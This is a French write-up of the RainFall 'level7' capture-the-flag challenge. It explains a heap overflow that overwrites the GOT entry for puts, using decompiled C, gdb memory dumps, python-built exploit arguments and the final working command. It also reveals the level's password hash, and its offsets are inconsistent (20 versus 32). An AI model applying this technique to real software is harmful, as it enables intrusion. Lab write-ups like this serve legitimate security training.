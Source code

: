Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=41a50d3a-4820-48a6-93d8-d314911b1399#Ghidra=187&BinaryNinja=163

```c
int m()
{
  // 0x08049960  c
  return printf("%s - %d\n", &c, time(nullptr));
}

typedef struct struct_0 {
  unsigned int value;
  char *ptr;
} struct_0;

int main(int argc, char** argv, char** envp)
{
  struct_0 *v0;
  struct_0 *v1;

  v0 = malloc(8);
  v0->value = 1;
  v0->ptr = malloc(8);
  v1 = malloc(8);
  v1->value = 2;
  v1->ptr = malloc(8);
  strcpy(v0->ptr, argv[1]);
  strcpy(v1->ptr, argv[2]);
  fgets(&c, 0x44, fopen("/home/user/level8/.pass", "r"));
  puts("~~");
  return 0;
}
```

# Explication

Ce qu’on souhaite faire ici c’est utiliser strcpy pour modifier une variable.

Avec le premier strdup, on peut faire un buffer overflow pour changer l’adresse de “v1->ptr” et donc avec le
deuxième strdup on change la valeur souhaité 😀 (donné par le premier argument passé)

Adresse de la fonction m:

```
(gdb) p m
$10 = 0x80484f4 <m>
```

Adresse de puts dans la GOT (Global Offset Table) :

```
level7@RainFall:~$ objdump --dynamic-reloc level7

level7:   file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE           VALUE
…
08049928 R_386_JUMP_SLOT   puts
…
```

On regarde la position de chacune des variables:

```
(gdb) b fgets
…
(gdb) run aaa bbb
…
(gdb) x/20xb _GLOBAL_OFFSET_TABLE_
…
{{{Plein de fois entrée}}}
…
(gdb)
0x8049ff8:    0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x804a000:    0x00    0x00    0x00    0x00    0x11    0x00    0x00    0x00
0x804a008:    0x01    0x00    0x00    0x00
(gdb)
0x804a00c:    0x18    0xa0    0x04    0x08    0x00    0x00    0x00    0x00
0x804a014:    0x11    0x00    0x00    0x00    0x61    0x61    0x61    0x00
                                              ^^^^    ^^^^    ^^^^
0x804a01c:    0x00    0x00    0x00    0x00
(gdb)
0x804a020:    0x00    0x00    0x00    0x00    0x11    0x00    0x00    0x00
0x804a028:    0x02    0x00    0x00    0x00    0x38    0xa0    0x04    0x08
0x804a030:    0x00    0x00    0x00    0x00
(gdb)
0x804a034:    0x11    0x00    0x00    0x00    0x62    0x62    0x62    0x00
                                              ^^^^    ^^^^    ^^^^
0x804a03c:    0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x804a044:    0xc1    0x0f    0x02    0x00
(gdb)
0x804a048:    0x0c    0x24    0xad    0xfb    0x00    0x00    0x00    0x00
0x804a050:    0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x804a058:    0x00    0x00    0x00    0x00
```

Checking :

```
(gdb) b strcpy
…
(gdb) run aaa bbb
…
(gdb) continue
…
(gdb) x/40xb 0x804a014
0x804a014:    0x11    0x00    0x00    0x00    0x61    0x61    0x61    0x00
                                              ^^^^    ^^^^    ^^^^
0x804a01c:    0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x804a024:    0x11    0x00    0x00    0x00    0x02    0x00    0x00    0x00
0x804a02c:    0x38    0xa0    0x04    0x08    0x00    0x00    0x00    0x00
              ^^^^    ^^^^    ^^^^    ^^^^
0x804a034:    0x11    0x00    0x00    0x00    0x62    0x62    0x62    0x00
                                              ^^^^    ^^^^    ^^^^
```

Il faut 20 caractère (0x20 => 32) pour modifier `0x38 0xa0 0x04 0x08`.

Trying :

```
(gdb) b strcpy
…
(gdb) run $(python -c "print('a' * 32 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08')")
…
(gdb) continue
…
(gdb) x/40xb 0x804a014
0x804a014:    0x11    0x00    0x00    0x00    0x61    0x61    0x61    0x61
0x804a01c:    0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x804a024:    0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x804a02c:    0x28    0x99    0x04    0x08    0x00    0x00    0x00    0x00
              ^^^^    ^^^^    ^^^^    ^^^^
0x804a034:    0x11    0x00    0x00    0x00    0x00    0x00    0x00    0x00
```

On obtient :

```
level7@RainFall:~$ ./level7 $(python -c 'print("a" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1716181706
```
